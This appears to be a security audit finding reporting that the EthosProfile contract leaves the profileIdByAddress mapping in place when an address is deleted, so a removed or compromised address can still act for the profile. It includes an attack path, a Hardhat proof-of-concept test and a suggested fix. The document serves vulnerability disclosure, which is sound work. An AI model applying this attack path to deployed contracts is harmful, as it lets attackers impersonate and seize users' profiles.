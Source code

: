 Amusing Rose Fox

High

# Removed account still has access to the profile, as `EthosProfile::profileIdByAddress` mapping is not deleted when deleting an account.

### Summary

When an address is removed by calling the `EthosProfile::deleteAddressAtIndex`, the address is marked as compromised and removed from the array of addresses associated with a profile, but the `profileIdByAddress` mapping which stores the profile associated with an address is not deleted, which means that the address can still act in place of the profile.

### Root Cause

The `EthosProfile::profileIdByAddress` mapping is not deleted when an address is removed from a profile.
https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosProfile.sol#L415-#L438

### Internal pre-conditions

- User A needs to have or be linked to a profile.
- User A needs to have more than one address registered to their profile.
- User A needs to be associated with the profile they want to delete an address from.

### External pre-conditions

- One of the addresses associated with user A's profile was compromised hence they need to remove it from their profile

 OR, in the case of an organization/company profile

- A user is no longer part of the organization/company hence their account needs to be removed from the company profile

### Attack Path

- user A creates a profile 
- user A registers account B to their profile 
- account B is compromised
- user A removes account B from their profile 
- account B still has access to user A's profile so it can act on behalf of it. 

### Impact

Account still has complete control over user A's profile and can create attestations, leave reviews, vote, discuss, and even remove addresses on the profile effectively impersonating the owner of the profile. And can also remove user A's address from the profile taking full control over it.

### PoC

```javascript

it('POC -- deleted address still has access to the profile', async () => {
      const { ethosProfile, PROFILE_CREATOR_0, EXPECTED_SIGNER, OTHER_0, OWNER, ethosReview } =
        await loadFixture(deployFixture);

      const profileId = String(2);
      let rand = '123';
      let signature = await common.signatureForRegisterAddress(
        OTHER_0.address,
        profileId,
        rand,
        EXPECTED_SIGNER,
      );

      await ethosProfile.connect(OWNER).inviteAddress(PROFILE_CREATOR_0.address);
      await ethosProfile.connect(PROFILE_CREATOR_0).createProfile(1);
      await ethosProfile
        .connect(PROFILE_CREATOR_0)
        .registerAddress(OTHER_0.address, profileId, rand, signature);


      let addresses = await ethosProfile.addressesForProfile(2);
      expect(addresses.length).to.be.equal(2, 'should be 3 addresses');

      // delete address at index 1 -- OTHER_0.address
      await ethosProfile.connect(PROFILE_CREATOR_0).deleteAddressAtIndex(1);

      addresses = await ethosProfile.addressesForProfile(2);
      expect(addresses.length).to.be.equal(1, 'should be 1 address');
      expect(addresses[0]).to.be.equal(PROFILE_CREATOR_0.address, 'wrong address');
      
      const params = {
        score: Score.Positive,
        subject: OWNER.address,
        paymentToken: ethers.ZeroAddress,
        comment: defaultComment,
        metadata: defaultMetadata,
        attestationDetails: {
          account: '',
          service: '',
        } satisfies AttestationDetails,
      };
      //OTHER_0 leaves review using PROFILE_CREATOR_O id
      await ethosReview
        .connect(OTHER_0)
        .addReview(
          params.score,
          params.subject,
          params.paymentToken,
          params.comment,
          params.metadata,
          params.attestationDetails
        );

        const authorProfileId = await ethosProfile.profileIdByAddress(OTHER_0.address);

        const reviewsByPROFILE_CREATOR_0 = await ethosReview.reviewIdsByAuthorProfileId(authorProfileId, 0);

        expect(reviewsByPROFILE_CREATOR_0).to.be.equal(0, "wrong review id");
        expect((await ethosReview.reviews(reviewsByPROFILE_CREATOR_0)).author).to.be.equal(OTHER_0.address);
        expect((await ethosReview.reviews(reviewsByPROFILE_CREATOR_0)).subject).to.be.equal(OWNER.address);

    });

```

### Mitigation

Delete the `EthosProfile::profileIdByAddress` mapping for an address when removing the address from a profile or the `checkIfCompromised` modifier should be added to all function which call the `EthosProfile::profileIdByAddress` mapping to get the profile Id of a caller.
